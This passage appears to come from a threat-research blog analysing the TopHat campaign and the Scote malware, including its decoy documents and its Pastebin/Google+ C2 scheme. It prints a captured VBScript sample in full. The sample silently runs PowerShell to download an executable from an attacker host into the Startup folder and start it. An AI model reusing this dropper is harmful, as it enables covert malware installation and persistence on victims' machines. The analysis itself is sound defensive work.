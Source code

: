 


123456789

<script language="VBScript">window.moveTo -4000, -4000  Set vFwhEtGt = CreateObject("Wscript.Shell")  Set lfTi = CreateObject("Scripting.FileSystemObject")  If 1=1 Then    vFwhEtGt.Run ("PowerShell.exe -WindowStyle Hidden $d=$env:userprofile+'\\start Menu\\Programs\\Startup\\\12330718701ac441736a55e3ee3cx996.exe';(New-Object System.Net.WebClient).DownloadFile('http://storgemydata[.]website/x.exe',$d);Start-Process $d;"),0 End If  window.close()</script>





This VBScript script executes a PowerShell command that will download and execute a file from the following location:

http://storgemydata[.]website/x.exe

This final ‘x.exe’ executable file is an instance of the Scote malware family.

Technique #4 – Self-extracting Executables
The last technique makes use of self-extracting executable files to both load a decoy document and spawn an instance of Scote. When the malware is run it will drop a file with an original filename of ‘abbas.rtf’, which contains the following contents:

Figure 5 TopHat decoy document with rough translation
Additionally, an instance of Scote is loaded on the victim machine.
The decoy document used discusses the potential dissolving of the Palestinian Authority (PA) by the President Mahmoud Abbas. This particular event was reported on August 23, 2017, just before Trump administration officials were set to visit Ramallah.
Later in this blog, we will see the attackers leveraging this Donald Trump connection even more.
We originally witnessed these specific RTFs on September 6th, 2017, just two weeks after this event.
Based on the observed statistics from the malicious redirect found in technique #1, as well as the content of this decoy document, we can infer that at least some of the targeted victims may very well be located in the Palestinian Territories.

Analysis of the Scote Malware
The Scote malware family employs a series of techniques and tricks when it is originally loaded onto a victim machine. However, underneath the various layers of obfuscation lies a fairly straightforward malware family that abuses legitimate third-party online services to host its C2 information.
When Scote originally is run, it will decode embedded configuration information. This embedded configuration information contains URLs to third party online services, such as Pastebin postings or Google+ accounts. Scote will use this information to attempt to retrieve data from these URLS and parse it, such as in the following example:

Figure 6 Google+ profile used by Scote malware
It should be noted that a total of three Google+ profiles have been observed and all of these profiles contained the name ‘Donald Trump’. This is interesting given the topics we saw being used to deliver the Scote malware family within the TopHat campaign, many of which also referred to the President of the Palestinian Territories.
After C2 information is retrieved by Scote, it will communicate with these servers and can accept commands that perform the following actions:

Kill the Scote malware
Run ‘ipconfig’ on the victim and return results
Run ‘cmd.exe /C systeminfo’ and return results
Load a DLL that is downloaded from a C2

